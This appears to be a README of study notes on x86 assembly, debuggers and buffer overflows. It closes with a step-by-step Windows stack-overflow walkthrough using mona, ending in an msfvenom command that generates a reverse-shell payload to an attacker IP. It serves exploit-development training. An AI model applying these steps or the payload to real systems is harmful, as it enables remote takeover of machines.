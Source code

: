 # Assemblers
Converts assembly code into a machine code, object file.  The linker combines one or more object files into an executable.
Assemble assembly (.asm) -> object (.obj).  Link objects (.obj) -> executable (.exe).

##### [Microsoft Macro Assembler MASM](https://docs.microsoft.com/en-us/cpp/assembler/masm/microsoft-macro-assembler-reference)
x86 assembler that uses Intel syntax for MS-DOS and Windows.

##### [GNU Assembler GAS](https://www.gnu.org/software/binutils/)
GNU Project.  Default backend for GCC.

##### [Netwide Assember NASM](https://www.nasm.us/)
x86 architecture for 16-bit, 32-bit (IA-32), and 64-bit (x86-64).  Widely used on Linux.

   * ##### [NASM-X](https://forum.nasm.us/index.php?topic=1853.0)
   * ##### [NASM-X Download](https://sourceforge.net/projects/nasmx/)

##### [Flat Assembler FASM](http://flatassembler.net/)
x86 architecutre.  Supports Intel syntax for IA-32 and x86-64.

# Assembly Instructions
##### Data Transfer:  MOV, XCHG, PUSH, POP
##### Arithmetic:  ADD, SUB, MUL, DIV, XOR, NOT
##### Control Flow:  CALL, RET, LOOP, Jcc (cc is any conditon)
##### Other: STI, CLI, IN, OUT

# Assembly Syntax
|          | Intel (Windows) | AT&T (Linux)   |
|----------|-----------------|----------------|
| Assembly | MOV EAX, 10     | MOVL $10, %EAX |
| Syntax   | dest, source    | source, dest   | 

AT&T prepends numbers with a $ and registers with a %.  Also, AT&T adds the register size to the end of the instruction.

|   | Register Size |
|---|---------------|
| B | 8-bit  (byte) |
| W | 16-bit (word) |
| L | 32-bit (long) |
| Q | 64-bit (quad) |

# C++ Tutorials
[C++ Programming Tutorial](https://web.archive.org/web/20120310172145/http://www.codepedia.com/1/CPP-Beginners-Tutorial)

[CPlusPlus.com](http://www.cplusplus.com/doc/tutorial/)

# Nasmx Tutorials
[ASM Community](http://www.asmcommunity.net/)

[ASM Test Department](https://web.archive.org/web/20120506051848/http://www.asmcommunity.net/archives/testdepartment)

[ASM Book](https://web.archive.org/web/20120303012646/http://www.asmcommunity.net/book)

[Iczelion's Tutorials](https://web.archive.org/web/20120510061910/http://www.asmcommunity.net/book/tutorials/iczelion)

# DEP & ASLR
[On the effectiveness of DEP and ASLR](https://msrc-blog.microsoft.com/2010/12/08/on-the-effectiveness-of-dep-and-aslr/)

# Compilers
[GCC online documentation](https://gcc.gnu.org/onlinedocs/)

# Debuggers
| Debugger | OS |
|----------|----|
| [Immunity Debugger](https://www.immunityinc.com/products/debugger/) | Windows |
| [IDA](https://www.hex-rays.com/ida-pro/) | Windows, Linux, MacOS |
| [GDB](https://www.sourceware.org/gdb/)| UNIX, Windows |
| [X64DBG](https://x64dbg.com/) | Windows |
| [EDB](http://codef00.com/projects) | Linux |
| [WinDbg](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools) | Windows |
| [OllyDbg](http://www.ollydbg.de/) | Windows |
| [Hopper](https://www.hopperapp.com/) | Linux, MacOS |

# Decompilers

# Buffer Overflow Purposes
* Overwrite EIP with a JMP point and execute payload written to ESP.  Since we do not know the address of ESP, we need a JMP point to instruct the computer to execute the code at ESP.

* Overwrite EIP with an address of code within the program that is not readily accessible.

# Little-endian
Microsoft uses little-endian, in which the most significant byte is in the lowest or position.  Thus, an EIP of A(0x41), B(0x42), C(0x43), D(0x44) will be shown as 0x44434241.
When identifying an address to overwite EIP, the address must be reversed, before writing it to the EIP.

# Steps To Establish Reverse Shell On Windows
1. Open Immunity Debugger and configure mona working directory or use default. ```!mona config -set workingfolder c:\mona\%p```
2. Open application in Immunity Debugger and run.
3. Set IP Address, Port Number, and Prefix (if any) in fuzzer.py and run the script.
4. Note the length of the string that crashed the application.
5. Generate a cyclic pattern that is 400 characters longer than the string length that crashed the application. #PatternLength#
6. ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <#PatternLength#>```
7. Set exploit_step1.py payload to the cyclic pattern generated.
8. Restart the application and run exploit_step1.py.
9. Find the offset, with mona. ```!mona findmsp -distance #PatternLength#```
10. Mona should open a dialog: ```EIP contains normal pattern : ... (offset XXXX)```
11. Use this offset for all remaining steps.
12. Run exploit_step2.py, with the offset returned from mona.  Confirm the offset by the fact that the EIP should be filled with B's (41414141).
13. Find bad characters.  Bad characters such as NULL (0x00) will cause the program to cease execution or crash.  They must be identified and removed from any payload.
14. Generate a byte array that mona will use to compare with our payload and determine bad characers. ```!mona bytearray -b "\x00"```
15. Restart the application.
16. Run exploit_step3.py, passing the variable all_bad as the payload.
17. Note the EIP address, in Immunity Debugger.
18. Use mona to identify bad characters, based on the byte array. ```!mona compare -f <mona's working directory>\bytearray.bin -a <EIP Address>```
19. A dialog should open, mona Memory comparison results.
20. Not all characters listed are necessarily bad.  Rerun step 14, adding the first bad character to the bytearray and remove that character from exploit_step3.py payload.
21. Repeat steps 14 - 20, until mona reports no bad characters.
22. Find a JMP point, with mona.  ```!mona jmp -r esp -cpb "\x00"``` The JMP point will instruct the computer to execute the code at ESP.
23. Rewrite the JMP address in little-endian and set it as the RETN value in exploit_step4.py.  If the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.
24. Generate a payload, using msfvenom, specifying the bad characters for -b. ```msfvenom -p windows/shell_reverse_tcp LHOST=<Attack IP Address> LPORT=<Port #> EXITFUNC=thread -b "\x00" -f c```
25. exploit_step4.py uses a NOP sled, so that the ESP address does not have to be exact.  The application will hit the NOP and continue until it finds code to execute.
